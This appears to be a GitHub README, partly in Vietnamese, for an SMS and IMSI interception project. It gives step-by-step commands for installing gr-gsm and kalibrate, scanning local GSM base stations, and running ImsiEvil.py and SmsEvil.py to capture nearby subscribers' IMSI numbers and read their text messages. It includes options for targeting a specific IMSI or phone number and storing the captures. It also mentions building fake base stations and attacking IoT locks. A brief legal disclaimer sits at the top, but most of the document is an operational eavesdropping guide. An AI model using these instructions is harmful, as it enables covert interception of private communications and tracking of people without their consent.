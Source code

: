 # Read_Sms_Hacking
Đọc tin nhắn của mạng đi động 2G-4G.

Bài viết nhằm mục đích giúp bạn đọc hiểu hơn về mạng di động, các công cụ đo lường tín hiệu mạng di động, các công cụ phân tích và đọc gói tin tcp/ip \
Bạn đọc lập trình không nên sử dụng kiến thức của mình vào các mục đích trái pháp luật.

Mạng 2G-4G khi gửi tin nhắn xuống thẻ Sim đã được mã hóa tiêu tuân chuẩn GSM, chỉ cần một thiết bị bắt đúng giải tần số của BTS và thực hiện giải mã bằng software là có thể đọc được tin nhắn, nghe được audio thoại của kênh.

Các thiết bị IOT như cửa cuốn, khóa xe ô tô, xe máy... cũng có thể bị hack bằng cách tương tự này.

  <p align="center">
    <img src="https://www.paladion.net/hs-fs/hubfs/Paladion--2019/resources/blogs/How%20to%20Build%20an%20IMSI%20Catcher/3.jpg?width=527&name=3.jpg" style="max-width:100%;max-height:100%;" />
  </p>

**Hacker cũng có thể tạo ra những trạm BTS giả mạo chưa tới 600$, hoặc sử dụng các thiết bị IMSI catcher** <br/>
https://jurnal-singkat.blogspot.com/2016/04/building-portable-gsm-bts-using-nuand.html

# Công cụ phần mềm
```
kalibrate-rtl hoặc kalibrate-hackrf: công cụ quét dãy tần số GSM, xác định trạm BTS trong khu vực có tín hiệu mạnh
gr-gsm: công cụ thu và xử lý tín hiệu GSM
Wireshark: công cụ thu nhận dữ liệu mạng từ gr-gsm xử lý
gqrx: công cụ thu tín hiệu từ SDR
```

# Công cụ phần cứng: có thể dùng một trong các RTL-SDR, Hackrf, USRP, Blade-RF
```
https://www.paladion.net/blogs/how-to-build-an-imsi-catcher-to-intercept-gsm-traffic
Khi cắm thiết bị phần cứng vào cổng usb hoặc RS thì sẽ xuất hiện thêm card mạng mới, kiểm tra bằng lệnh lsusb sẽ thấy.
gqrx có nhiệm vụ thu tín hiệu từ thiết bị vào card mạng mới này
```

# Setup

```
sudo apt-get install python-pyshark
Gói pyshark để đọc các gói tin trong card mạng, vd bên dưới để đọc các payload http
https://medium.com/@vworri/extracting-the-payload-from-a-pcap-file-using-python-d938d7622d71
```

Install Gr GSM :  ( For receiving GSM transmissions )
```
sudo add-apt-repository -y ppa:ptrkrysik/gr-gsm
sudo apt-get update
sudo apt-get install gr-gsm
```

If gr-gsm failled to setup. Than follow those this : https://github.com/ptrkrysik/gr-gsm/wiki/Installation  

Install Kalibrate : ( For finding frequencies )
```
sudo apt install build-essential libtool automake autoconf librtlsdr-dev libfftw3-dev
git clone https://github.com/steve-m/kalibrate-rtl
cd kalibrate-rtl
./bootstrap && CXXFLAGS='-W -Wall -O3'
./configure
make
sudo make install
```
# Usage
You need gsm frequency on which you capture sms or imsi. By using kalibrate you will get all your near gsm base stations  frequencies.
```
kal -s GSM900
```
```
kal: Scanning for GSM-900 base stations.
GSM-900:
	chan: 4 (935.8MHz + 320Hz)	power: 1829406.95
	chan: 11 (937.2MHz + 308Hz)	power: 4540354.88
...
```
Now you need to capture gsm traffic using gr-gsm on frequency of your any gsm base station which you get from kalibrate.
```
grgsm_livemon -f <your_frequency>M
```
Example :
```
grgsm_livemon -f 935.8M
```
if you see output that's mean you getting gsm packets than continue other setps else change frequency.
```
2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b
2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b
2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b
2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b 2b
...
```
Now every thing is ready you can start now capturing sms or imsi numbers using gsmevil.
You able to run imsi catcher and sms sniffer both at same time using 2 seprate terminal for capture imsi numbers and sms both at same time.
```
#### Capturing IMSI :
```
python ImsiEvil.py 
```
Options :
```
python ImsiEvil.py -h
Usage: ImsiEvil.py: [options]

Options:
  -h, --help            show this help message and exit
  -i IFACE, --iface=IFACE Interface (default : lo)
  -p PORT, --port=PORT  Port (default : 4729)
  -m IMSI, --imsi=IMSI  IMSI to track (default : None, Example: 123456789101112)
  -s SAVE, --save=SAVE  Save all imsi numbers to sqlite file. (default : None)
```
For save all imsi numbers with details in sqlite file.(It's will show you output on screen and also save in file)
```
python ImsiEvil.py -s example.db
```
For capture only specific imsi. (It's will show you only your given imsi result)
```
python ImsiEvil.py -m imsi_here (Example: python ImsiEvil.py -m 123456789101112)
```
#### Capturing SMS :

Run this command to quick start sms capturing.
```
python SmsEvil.py 
```
Options :
```
python SmsEvil.py -h
Usage: SmsEvil.py: [options]

Options:
  -h, --help            show this help message and exit
  -i IFACE, --iface=IFACE Interface (default : lo)
  -p PORT, --port=PORT  Port (default : 4729)
  -n NUMBER, --number=NUMBER Phone number (default : None)
  -s SAVE, --save=SAVE  Save all text messages to sqlite file. (default : None)
```
For save all sms in sqlite file.(It's will show you output on screen and also save in file)
```
python SmsEvil.py -s example.db
```
For capture only specific phone number sms. (It's will show you only your given phone number result)
```
python SmsEvil.py -n phone_number_here (Example: python SmsEvil.py -n 12345678910)
```

# Links 
Frequency : https://www.worldtimezone.com/gsm.html or https://en.wikipedia.org/wiki/GSM_frequency_bands
Sdr : https://en.wikipedia.org/wiki/Software-defined_radio
Sms : https://en.wikipedia.org/wiki/SMS#GSM
Imsi : https://fr.wikipedia.org/wiki/International_Mobile_Subscriber_Identity
Cell id : https://en.wikipedia.org/wiki/Cell_ID or https://unwiredlabs.com/
GSM : https://en.wikipedia.org/wiki/GSM
Frequency Calculator : https://www.cellmapper.net/arfcn
GR-GSM : https://github.com/ptrkrysik/gr-gsm
